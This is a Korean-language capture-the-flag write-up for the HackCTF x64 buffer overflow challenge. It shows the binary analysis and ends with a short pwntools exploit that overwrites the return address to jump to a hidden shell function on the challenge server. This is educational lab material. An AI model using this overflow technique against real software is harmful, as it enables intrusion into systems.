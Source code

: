 **HackCTF - x64 Buffer Overflow**

| layout | title                                 | auther   | categories | tags           |
| ------ | ------------------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - x64 Buffer Overflow Writeup | Y3oj4eng | writeup    | writeupwargame |



# Analysis

---

`file`명령어를 통해 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file 64bof_basic 
64bof_basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=f36fc5ac99f79e7cfa367880978afc9a5b4367d7, not stripped

```

**기존에 풀어왔던 문제들과는 다르게 `64 bit` ELF 프로그램이다.**

`checksec` 모듈을 이용해 `binary`에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec 64bof_basic 
[*] '/home/mac/Desktop/hackCTF/64bof_basic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

오... `amd`기반의 구조이며 `RELRO`와 `NX` 보호기법이 적용되었다. (~~이전 문제들과는 다르게 험난할 것으로 예상된다.~~)

자, 일단 실행시켜본다!

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./64bof_basic 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

바이너리를 실행시키면 사용자로부터 입력을 받으며 입력을 받은 문자열을 `Hello` 문자열에 덧붙혀 출력한다.

한번의 분기도 없이 입력 -> 출력의 절차임으로 예상된다.

코드를 분석하기위해 `IDA`를 통해 바이너리를 열었다.

![image](https://user-images.githubusercontent.com/33051018/75684364-ff5b7b00-5cdb-11ea-93e7-c473903aea1c.png)

??? ``callMeMaybe` 라는 수상한 이름의 함수가 존재한다.

일단은 존재를 기억해놓고 `main`을 분석하도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75684545-57927d00-5cdc-11ea-8bfc-539ea501a597.png)

`main`의 구성은 정말 매우 간단했다.

`scanf` 함수를 통해 `s`변수에 값을 입력받는다. 

`strlen` 함수를 통해 `s`변수에 저장된 데이터의 길이를 확인하여 `v5`변수에 저장한다.

이후 `s`변수를 출력한다.

`s`변수는 `rbp-0x110`에 위치하며 `scanf`함수를 통해 입력을 받기 때문에 `BOF` 취약점이 존재한다.

이를통해 `scanf`함수가 끝난뒤 복귀하는 시점의 `return address`를 덮어씌울수 있다.

여기서 `return address`를 덮어씌우기 위해 쉘을 실행시켜줄만한 무언가가 필요한데, 

앞서 확인헀다시피 `NX` 보호기법이 적용되어 쉘코드를 기입할만한 영역이 마땅치않다.

아까 분석 초반에 확인했던 `callMeMaybe` 함수를 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75685876-a93c0700-5cde-11ea-89b7-7335081f3b89.png)

아주 좋은 함수다. ~~바람직~~

`scanf`함수가 끝나고 복귀하는 지점을 `callMeMaybe` 함수의 주소로 덮어씌워 `RIP`흐름을 조작한다.

# exploit

---

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)
#p = process('./64bof_basic')
callmemaybe_addr = 0x0000000000400606

payload = 'A'*0x118		# dummy : 0x110 + 8 (64bit SFP) bytes
payload += p64(callmemaybe_addr)

p.sendline(payload)
p.interactive()
```




